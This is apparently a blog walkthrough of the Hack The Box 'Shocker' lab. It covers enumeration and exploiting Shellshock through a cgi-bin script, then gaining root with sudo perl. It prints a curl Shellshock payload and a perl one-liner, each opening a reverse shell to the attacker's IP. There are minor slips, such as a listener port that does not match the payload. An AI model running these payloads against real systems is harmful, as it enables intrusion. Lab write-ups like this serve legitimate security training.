 ```yaml
---
title: Shocker
date: 2020-05-17 16:19
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/shocker/shocker.png'
tags: ['Hack The Box']
---
```


In this Hack The Box, we’ll be using DirBuster to look for hidden directories, and we’ll get to use the shellscript exploit to gain access to the box–all without using Metasploit, so let’s begin!

<h2><a class="header_post" name="hackthebox">Hack The Box</a></h2>

* Operating System: Linux 
* Difficulty: Easy

<h2><a class="header_post" name="enumeration">Enumeration</a></h2>

Let's start with the good ol' nmap scan. 

<img src="/images/blog/shocker/nmapscan.jpg" alt="nmap scan">

	PORT     STATE SERVICE VERSION
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 
	                       (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

From the results, we can see that port 80 is open, so let’s see what we can find.

### Website Information 

In the web browser, I went to `10.10.10.56`. Hah, look what's on the front page. 

<img src="/images/blog/shocker/website.jpg" alt="front page of website">

Next, I checked the source code and the HTTP headers using Burp Suite--nothing.

I decided to use DirBuster since I wasn't having any luck. 

### DirBuster

To access DirBuster, in terminal type in `dirbuster`, and it should open the program. I used the medium wordlist file located in: 

<strong>/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt</strong>

Here are the results:

<img src="/images/blog/shocker/dirbuster.jpg" alt="dirbuster results">

I tried to access /icons, no luck. That said, what's interesting is the cgi-bin directory that DirBuster has found. Since cgi-bin is a folder that can be used to house scripts.. I wonder if there's any scripts in that folder.

I reran DirBuster, but this time added the file extensions: <strong>sh, pl, py, and rb</strong>. 

<img src="/images/blog/shocker/dirbustershell.jpg" alt="dirbuster results with shell script">

Here we go, it looks like we found a <strong>user.sh</strong> file, which confirms that the cgi-bin does allow for scripts to run. Meaning, we can try to send a shell script over to gain access to the machine.

### Using Nmap Scripts

Since we've confirmed that the cgi-bin directory can execute shell scripts, I did some investigating and found out about the shellshock vulnerability. Here's what I found:

*Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.*

You can learn more about it here: [Wikipedia - Shellshock (Software Bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

Before using it, I wanted to verify that this HTB is vulnerable to shellshock, so I used a nmap script. To find the script in Kali Linux use the `locate` command. Once found, you can use the `cp` command to copy it to your current directory. 

	root@kali:~# locate http-shellshock
	/usr/share/nmap/scripts/http-shellshock.nse
	root@kali:~# cp /usr/share/nmap/scripts/http-shellshock.nse /root/HTB/Shocker

Before using it, I edited the file by using the `gedit` command and removed the line: 

`options["header"][cmd] = cmd`

Then we can go ahead and run the script..

<img src="/images/blog/shocker/nmapscript.jpg" alt="nmap script results">

..Yes! Confirmed that this box might be vulnerable to shellshock, so let's use it. 

<h2><a class="header_post" name="exploitation">Exploitation</a></h2>

Before moving forward with exploitation, let's recap what we know so far:

* In the nmap scan, we found out that port 80 is open. 
* In DirBuster we saw the cgi-bin directory that contained a user.sh file.
* The above tells us that the cgi-bin directory can store and execute shell scripts.
* Confirmed that port 80 is vulnerable to the shellscript exploit by running a nmap script.

Okay, now that we know the above. Let's start our exploit!

### Shellscript Exploit

To start with the shellscript exploit, we're going to do the following: 

Enter this command in one terminal window:

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

And then open a netcat listener in another terminal window, `nc -lnvp 4443`

<img src="/images/blog/shocker/shellscript.jpg" alt="shellscript exploit">

Would you look at that--it worked! It looks like we have access to Shelly's account. Let's see what type of privileges Shelly has by using the `sudo -l` command.

<img src="/images/blog/shocker/shelly.jpg" alt="shelly privileges">

It looks like Shelly can run a perl script, so we can see if we can get a reverse shell using perl.

### Privilege Escalation

I like to use Pentest Monkey's cheat sheet to find a reverse shell suing perl. The cheat sheet can be found here: [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

	sudo perl -e 'use Socket;$i="10.10.14.31";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Before executing the command, we'll want to create a Netcat listener first in another terminal window by typing `nc -lnvp 4444` 

<img src="/images/blog/shocker/pescalation.jpg" alt="privilege escalation">

We did it! We can use the `whoami` command to verify root access, and we do. Congrats! We now have access to the Shocker HTB. From here, we can locate the root.txt and user.txt file to grab the flags. 

<h2><a class="header_post" name="conclusion">Conclusion</a></h2>

Running DirBuster on web servers is extremely helpful because it'll find directories that you wouldn't normally see when you first go to a website. In this box, we were able to locate the cgi-bin directory which housed scripts. Once we found that out, we were able to upload and execute our own scripts to gain root access. 
